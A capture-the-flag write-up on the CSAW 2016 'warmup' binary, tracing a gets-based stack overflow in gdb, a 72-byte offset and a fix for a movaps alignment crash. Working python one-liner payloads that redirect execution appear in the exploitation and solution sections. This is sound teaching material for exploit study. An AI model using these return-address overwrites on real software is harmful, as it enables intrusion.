

# CSAW 16 warmup

## Triage

- Run the standard tools to get to know the binary you're dealing with:


```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ file warmup
warmup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ab209f3b8a3c2902e1a2ecd5bb06e258b45605a4, not stripped
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ checksec warmup
[*] '/home/noobuntu/nightmare/bof/ret_func/warmup/warmup'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Run the binary, play with it:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ ./warmup
-Warm Up-
WOW:0x40060d
>tux
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ ./warmup
-Warm Up-
WOW:0x40060d
>123456
```

- Look at `ltrace`, and realize that `gets` is a major red flag:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ ltrace ./warmup >/dev/null
__libc_start_main(0x40061d, 1, 0x7fff561f0c88, 0x4006b0 <unfinished ...>
write(1, "-Warm Up-\n", 10)                                                                   = 10
write(1, "WOW:", 4)                                                                           = 4
sprintf("0x40060d\n", "%p\n", 0x40060d)                                                       = 9
write(1, "0x40060d\n", 9)                                                                     = 9
write(1, ">", 1)                                                                              = 1
gets(0x7fff561f0b30, 0x400755, 1, 0x7d1aeb114887nice
)                                             = 0x7fff561f0b30
+++ exited (status 48) +++
```

- Be naughty, crash the program:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ python3 -c 'print("A"*100)' | ./warmup
-Warm Up-
WOW:0x40060d
>Segmentation fault (core dumped)
```

## Static analysis

- Run ghidra on it, analyze the file and bring decompiled code.
- Function of interests are `main` and `easy`.
- `easy` function is called with no arguments, it's only purpose is to print `flag.txt`.
- This is `main` decompiled in ghidra:



- `target_buffer` is 64 bytes long.
- By overflowing it, I should be able to change RIP to point to `target_address` (`easy()`).
- Alright let's get to know stack layout of this program.

## Dynamic analysis

- Stepping through the instructions in `gdb` and you can see that `rbp-0x40` is the location of `target_buffer` in memory:

```sh
gef➤
>0x0000000000400692 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x1
$rbx   : 0x0
$rcx   : 0x00007ffff7d14887  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x1
$rsp   : 0x00007fffffffdd00  →  "0x40060d\n"
$rbp   : 0x00007fffffffdd80  →  0x0000000000000001
$rsi   : 0x0000000000400755  →  0x3c3b031b0100003e (">"?)
$rdi   : 0x1
$rip   : 0x0000000000400692  →  <main+0075> lea rax, [rbp-0x40]
$r8    : 0x0
$r9    : 0x00007fffffffda92  →  0x9400643036303034 ("40060d"?)
$r10   : 0x0
$r11   : 0x246
$r12   : 0x00007fffffffde98  →  0x00007fffffffe234  →  "/home/noobuntu/nightmare/bof/ret_func/warmup/warmu[...]"
$r13   : 0x000000000040061d  →  <main+0000> push rbp
$r14   : 0x0
$r15   : 0x00007ffff7ffd040  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero CARRY parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdd00│+0x0000: "0x40060d\n"         ← $rsp
0x00007fffffffdd08│+0x0008: 0x000000000000000a ("\n"?)
0x00007fffffffdd10│+0x0010: 0x0000000000000000
0x00007fffffffdd18│+0x0018: 0x0000000000000000
0x00007fffffffdd20│+0x0020: 0x0000000000000000
0x00007fffffffdd28│+0x0028: 0x0000000000000000
0x00007fffffffdd30│+0x0030: 0x0000000000000000
0x00007fffffffdd38│+0x0038: 0x0000000000000000
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400683 <main+0066>      mov    esi, 0x400755
     0x400688 <main+006b>      mov    edi, 0x1
     0x40068d <main+0070>      call   0x4004c0 <write@plt>
 →   0x400692 <main+0075>      lea    rax, [rbp-0x40]
     0x400696 <main+0079>      mov    rdi, rax
     0x400699 <main+007c>      mov    eax, 0x0
     0x40069e <main+0081>      call   0x400500 <gets@plt>
     0x4006a3 <main+0086>      leave
     0x4006a4 <main+0087>      ret
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped 0x400692 in main (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400692 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/wx $rbp-0x40
0x7fffffffdd40: 0x00000000
```


- Later in the program:

```sh
gef➤  x/wx $rbp-0x40
0x7fffffffdd40: 0x41414141
```

- Or when you specify 64 A's into the `gets` function:

```sh
gef➤  x/17wx $rbp-0x40
0x7fffffffdd40: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffdd50: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffdd60: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffdd70: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffdd80: 0x00000000
```

- Program still doesn't crash.
- But we have to overwrite the return address with `\x0d\x06\x40\x00`.

- Supply something larget than 64 bytes and you can notice that you start to overwrite `rbp`:

```sh
gef➤  c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD

Breakpoint 3, 0x00000000004006a3 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffdd40  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbx   : 0x0
$rcx   : 0x00007ffff7e1aaa0  →  0x00000000fbad2288
$rdx   : 0x1
$rsp   : 0x00007fffffffdd00  →  "0x40060d\n"
$rbp   : 0x00007fffffffdd80  →  0x0000000044434241 ("ABCD"?)
$rsi   : 0x1
$rdi   : 0x00007ffff7e1ca80  →  0x0000000000000000
$rip   : 0x00000000004006a3  →  <main+0086> leave
$r8    : 0x0
$r9    : 0x0
$r10   : 0x77
$r11   : 0x246
$r12   : 0x00007fffffffde98  →  0x00007fffffffe234  →  "/home/noobuntu/nightmare/bof/ret_func/warmup/warmu[...]"
$r13   : 0x000000000040061d  →  <main+0000> push rbp
$r14   : 0x0
$r15   : 0x00007ffff7ffd040  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdd00│+0x0000: "0x40060d\n"         ← $rsp
0x00007fffffffdd08│+0x0008: 0x000000000000000a ("\n"?)
0x00007fffffffdd10│+0x0010: 0x0000000000000000
0x00007fffffffdd18│+0x0018: 0x0000000000000000
0x00007fffffffdd20│+0x0020: 0x0000000000000000
0x00007fffffffdd28│+0x0028: 0x0000000000000000
0x00007fffffffdd30│+0x0030: 0x0000000000000000
0x00007fffffffdd38│+0x0038: 0x0000000000000000
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400696 <main+0079>      mov    rdi, rax
     0x400699 <main+007c>      mov    eax, 0x0
     0x40069e <main+0081>      call   0x400500 <gets@plt>
 →   0x4006a3 <main+0086>      leave
     0x4006a4 <main+0087>      ret
     0x4006a5                  cs     nop WORD PTR [rax+rax*1+0x0]
     0x4006af                  nop
     0x4006b0 <__libc_csu_init+0000> push   r15
     0x4006b2 <__libc_csu_init+0002> mov    r15d, edi
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped 0x4006a3 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a3 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

- Common fact is that above `rbp` is the return address.
- So to overflow that we will have to pad 72 bytes.
- So giving it `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD` as the input and you can see that return address gets mangled up:

```sh
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x7f0044434241
```

## Exploitation

- Let's overwrite this return address to `\x0d\x06\x40\x00`.

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*72 + b"\x0d\x06\x40")' | ./warmup
-Warm Up-
WOW:0x40060d
>Segmentation fault (core dumped)
```

- This fails because this is x64 binary, thus memory address is 64 bits long.
- Look at the `gdb` output of the same input:

```sh
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x7fff0040060d
```

- Because of that we need to extend our address to fit this space, so that it becomes `0x000000000040060d`.
- You can see it gets represented in `objdump` the way it really is:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ objdump -Mintel -d warmup | grep -A30 easy
000000000040060d <easy>:
  40060d:       55                      push   rbp
  40060e:       48 89 e5                mov    rbp,rsp
  400611:       bf 34 07 40 00          mov    edi,0x400734
```

- So trying to craft the exploit like this fails also:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*72 + b"\x0d\x06\x40\x00\x00\x00\x00\x00\x00")'  | ./warmup
-Warm Up-
WOW:0x40060d
>Segmentation fault (core dumped)
```

- This exploit __doesn't really fail__, have a look at the `gdb` output when running it with `input.txt` (above exploit)

```sh
gef➤  r < input.txt
Breakpoint 3, 0x00000000004006a3 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffdd40  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbx   : 0x0
$rcx   : 0x00007ffff7e1aaa0  →  0x00000000fbad2098
$rdx   : 0x1
$rsp   : 0x00007fffffffdd00  →  "0x40060d\n"
$rbp   : 0x00007fffffffdd80  →  0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x1
$rdi   : 0x00007ffff7e1ca80  →  0x0000000000000000
$rip   : 0x00000000004006a3  →  <main+0086> leave
$r8    : 0x0
$r9    : 0x0
$r10   : 0x77
$r11   : 0x246
$r12   : 0x00007fffffffde98  →  0x00007fffffffe234  →  "/home/noobuntu/nightmare/bof/ret_func/warmup/warmu[...]"
$r13   : 0x000000000040061d  →  <main+0000> push rbp
$r14   : 0x0
$r15   : 0x00007ffff7ffd040  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
     0x400696 <main+0079>      mov    rdi, rax
     0x400699 <main+007c>      mov    eax, 0x0
     0x40069e <main+0081>      call   0x400500 <gets@plt>
 →   0x4006a3 <main+0086>      leave
     0x4006a4 <main+0087>      ret
     0x4006a5                  cs     nop WORD PTR [rax+rax*1+0x0]
     0x4006af                  nop
     0x4006b0 <__libc_csu_init+0000> push   r15
     0x4006b2 <__libc_csu_init+0002> mov    r15d, edi
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped 0x4006a3 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a3 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  ni
0x00000000004006a4 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
     0x400699 <main+007c>      mov    eax, 0x0
     0x40069e <main+0081>      call   0x400500 <gets@plt>
     0x4006a3 <main+0086>      leave
 →   0x4006a4 <main+0087>      ret
   ↳    0x40060d <easy+0000>      push   rbp
        0x40060e <easy+0001>      mov    rbp, rsp
        0x400611 <easy+0004>      mov    edi, 0x400734
        0x400616 <easy+0009>      call   0x4004d0 <system@plt>
        0x40061b <easy+000e>      pop    rbp
        0x40061c <easy+000f>      ret
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped 0x4006a4 in main (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a4 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  ni
0x000000000040060d in easy ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
     0x400600 <frame_dummy+0020> jmp    0x400580 <register_tm_clones>
     0x400605 <frame_dummy+0025> nop    DWORD PTR [rax]
     0x400608 <frame_dummy+0028> jmp    0x400580 <register_tm_clones>
 →   0x40060d <easy+0000>      push   rbp
     0x40060e <easy+0001>      mov    rbp, rsp
     0x400611 <easy+0004>      mov    edi, 0x400734
     0x400616 <easy+0009>      call   0x4004d0 <system@plt>
     0x40061b <easy+000e>      pop    rbp
     0x40061c <easy+000f>      ret
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped 0x40060d in easy (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40060d → easy()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

- This means `easy` was executed, but program still SEGFAULTs.
- That's because we jumped to `easy` basically, and haven't returned from `main`.
- But if we jumped to `easy`, then why is there no flag?
- Just before it calls `system` command in `easy` it SEGFAULTs and crashes.

```sh
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7c50973 → __sigemptyset(set=<optimized out>)
[#1] 0x7ffff7c50973 → do_system(line=0x400734 "cat flag.txt")
[#2] 0x40061b → easy()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  ni

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
```


- Address of `ret` instruction in `main` is `0x00000000004006a3`, or `\xa3\x06\x40\x00\x00\x00\x00\x00`

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*72 + b"\x0d\x06\x40\x00\x00\x00\x00\x00" + b"\xa3\x06\x40\x00\x00\x00\x00\x00")'  | ./warmup
-Warm Up-
WOW:0x40060d
>Segmentation fault (core dumped)
```

- Let's figure out how much bytes I really need to send before I start overwritting return address:

```sh
gef➤  search-pattern abcd
[+] Searching 'abcd' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x6022a0 - 0x6022a6  →   "abcd\n" 
[+] In '/usr/lib/x86_64-linux-gnu/libc.so.6'(0x7ffff7dbd000-0x7ffff7e15000), permission=r--
  0x7ffff7dcbec1 - 0x7ffff7dcbec5  →   "abcd[...]" 
  0x7ffff7ddcb46 - 0x7ffff7ddcb60  →   "abcdefghijklmnopqrstuvwxyz" 
  0x7ffff7ddcb8a - 0x7ffff7ddcba4  →   "abcdefghijklmnopqrstuvwxyz" 
  0x7ffff7ddcc00 - 0x7ffff7ddcc37  →   "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWX[...]" 
  0x7ffff7de1cca - 0x7ffff7de1cd0  →   "abcdef" 
[+] In '/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2'(0x7ffff7fef000-0x7ffff7ffa000), permission=r--
  0x7ffff7ff2cda - 0x7ffff7ff2ce0  →   "abcdef" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdd30 - 0x7fffffffdd34  →   "abcd" 
gef➤  i f
Stack level 0, frame at 0x7fffffffdd80:
 rip = 0x4006a3 in main; saved rip = 0x7ffff7c29d90
 Arglist at 0x7fffffffdd70, args: 
 Locals at 0x7fffffffdd70, Previous frame's sp is 0x7fffffffdd80
 Saved registers:
  rbp at 0x7fffffffdd70, rip at 0x7fffffffdd78
```

- You take rip at: `0x7fffffffdd78` and subtract it with`0x7fffffffdd30` and you get `0x48` (which is 72).
- So I was right before when I sent 72 bytes as a padding before overwriting the return address. 
- So my exploit was fine, but it was crashing on `system` function call, because my Ubuntu is running newer libc version.
- To cite the actual writeup:

> When we run it. This might crash on the system("cat flag.txt") if you are running it on a more modern version of libc. This is because the challenge was made to run in a different environment/libc version, and exploitation techniques that work one way in one environment work differently in others.

- Let's explore this further:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ cat input.txt | ./warmup
-Warm Up-
WOW:0x40060d
>Segmentation fault (core dumped)
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ sudo dmesg | tail
[  789.120183] traps: warmup[3651] general protection fault ip:761e2fc50973 sp:7ffddec2b908 error:0 in libc.so.6[761e2fc28000+195000]
```

- Well our program crashes due to something called __stack alignment.__
- Stack makes some assumptions and when these assumptions are not true it crashes the program.
- This is the last instruction that it tries to execute before crashing:

```asm
 → 0x7ffff7c50973 <do_system+0073> movaps XMMWORD PTR [rsp], xmm1
```

- It says in the docs that the destination address must be a divisor of 16 or you get stack alignment problems.
- ~~TO-DO: Get the flag printed out correctly~~

## Solution

- Instead of trying to change return address to point to the first instruction of `easy` function, let's try make it point to the third instruction in `easy`.

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*72 + b"\x11\x06\x40\x00\x00\x00\x00\x00")'  | ./warmup
-Warm Up-
WOW:0x40060d
>flag{g0ttem_b0yz}
-Warm Up-
WOW:Segmentation fault (core dumped)
```

- This is one of the solutions for `movaps` problem.


---

#### Sources

1. https://github.com/hoppersroppers/nightmare/tree/master/modules/04-Overflows/05-bof_callfunction/csaw16_warmup
